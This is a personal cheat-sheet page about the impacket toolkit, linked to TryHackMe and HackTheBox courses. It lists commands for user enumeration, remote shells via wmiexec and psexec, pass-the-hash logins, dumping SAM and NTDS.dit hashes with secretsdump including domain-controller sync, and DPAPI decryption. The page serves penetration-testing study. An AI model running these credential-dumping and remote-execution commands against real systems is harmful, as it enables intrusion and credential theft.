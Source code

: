 # impacket

[![windowsprivesc20](../../../../cybersecurity/_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-lg-2"><div>

[impacket](https://github.com/fortra/impacket) <small>(12.5k ⭐)</small> is a collection of [python](/programming-languages/high-level/scripting/python/index.md) classes for working with network protocols. They are already installed on Kali:

```shell!
$ impacket-secretsdump # secretsdump.py
$ ...
```

You may install them manually too:

```shell!
$ # todo: use local install or pipx for others
$ sudo git clone https://github.com/fortra/impacket /opt/impacket
$ cd /opt/impacket
$ pip install -r requirements.txt
$ pip install .
$ python /opt/impacket/examples/secretsdump.py [...]
```

<br>

#### Samrdump

List users and domains.

```shell!
$ impacket-samrdump IP
$ impacket-samrdump username:password@IP
```

<br>

#### wmiexec

Pop a powershell or run commands using [DCOM](/operating-systems/networking/protocols/dcom.md):

```shell!
$ impacket-wmiexec -shell-type powershell username:password@IP
$ impacket-wmiexec -shell-type powershell username:password@IP "hostname"
```

<br>

#### mssqlclient

Connect to a MSSQL database.

```shell!
$ impacket-mssqlclient username@IP -windows-auth
$ impacket-mssqlclient username:password@IP -windows-auth
SQL> exit
```
</div><div>

#### SecretsDump

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Dump hashes from a backup of SAM and SYSTEM hashes. There are local credentials and domain cached credentials.

```shell!
$ impacket-secretsdump -sam XXX -system YYY LOCAL
$ impacket-secretsdump -sam XXX -security XXX -system XXX LOCAL
$ impacket-secretsdump -system ./system.hive -ntds ./ntds.dit LOCAL
<output format is explained in the output>
```

<br>

#### PsExec

Use a hash to login (Pass-The-Hash).

```shell!
$ impacket-psexec -hashes usernamehash:sessionhash username@IP
$ impacket-psexec -hashes :hash username@IP
```

<br>

#### SMB server

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Run a [SMB](../smb.md) server to which user will connect with the username XXX and the password YYY. Files will be stored in `/path/to/share`.

```shell!
$ impacket-smbserver -smb2support -username XXX -password YYY share_name /path/to/share
$ impacket-smbserver -smb2support -username username -password password share .
$ impacket-smbserver -smb2support share_name /path/to/share
```

<br>

#### SMB Client

Alternative to `smbclient`. It works even when the former doesn't.

```shell!
$ impacket-smbclient 'username':'password'@IP
$ impacket-smbclient IP
# shares
<list of shares>
# use <sharename>
# ls
# tree
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```shell!
$ impacket-dpapi unprotect -file xxx -key "xxx"
$ impacket-wmiexec domain/username:'password'@IP  # Local Admin but new process per command
$ impacket-psexec domain/username:'password'@IP # SYSTEM so more suspicious
$ impacket-secretsdump -outputfile hashes EXAMPLE\username:'password' -just-dc
impacket-secretsdump -outputfile hashes EXAMPLE.COM/'username':'password'@DC01.EXAMPLE.COM
```
</div><div>
</div></div>